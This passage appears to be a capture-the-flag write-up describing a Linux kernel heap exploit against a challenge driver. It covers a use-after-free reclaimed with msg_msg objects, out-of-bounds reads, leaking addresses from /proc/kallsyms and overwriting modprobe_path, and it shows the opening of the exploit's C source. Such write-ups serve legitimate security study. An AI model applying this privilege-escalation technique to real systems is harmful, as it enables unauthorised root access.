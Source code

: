   ```c
              next = head->head;
              total_nft= head->total_nft;
              kfree(head);
  
  ```

  

- In `GET` and `EDIT`, it uses  `req.idx` which we can control as the upper limit of the index.

  ```c
              for (int i=0; i < req.idx; i++){
                  debug_print(KERN_INFO "Walked over entry %px", target->next);
                  target = target->next;
              };
  ```

  

The size of `sofirium_entry` is 0x108 allocated in kmalloc-512. We could reuse it after free it. I choose `msg_msg` struct as it has pointer at offset zero. Then I can set `req.idx` bigger than `total_nft` so that I implement out-of-bounds reads. 

```c
struct msg_msg {
    struct list_head m_list;
    long m_type;
    size_t m_ts;        /* message text size */
    struct msg_msgseg *next;
    void *security;        
    /* the actual message follows immediately */
};
```

All the messages we send are chained into `m_list`, which is a two-way circular list. We can read and write data of size 0x100, so we send some messages of smaller size to join the list. When two messages are adjacent on the heap, we can control the pointer of one of them to any other area.

Since there are no restrictions on the `/proc/kallsyms` file in this challenge, we can easily get the kernel address by open it.

Finally, I change one of messages's `msg_msg->m_list->next` to `modprobe ` and change it to `/tmp/x`.

## Exploit

I use `popen` to read the `/proc/kallsyms`, it will create a pipe which will influent heap feng-shui. So I open it early.

```c
#include "./exploit.h" // some header files

#define NFT_RMALL 0x1337
#define NFT_ADD 0xdeadbeef
#define NFT_GET 0xcafebabe
#define NFT_EDIT 0xbabecafe

#define CHUNK_SIZE 0x100

struct list_head {
  struct list_head *next, *prev;
};

struct msg_msg {
  struct list_head m_list;
  long m_type;
  size_t m_ts;    /* message text size */
  void *next;     /* struct msg_msgseg *next; */
  void *security; 
```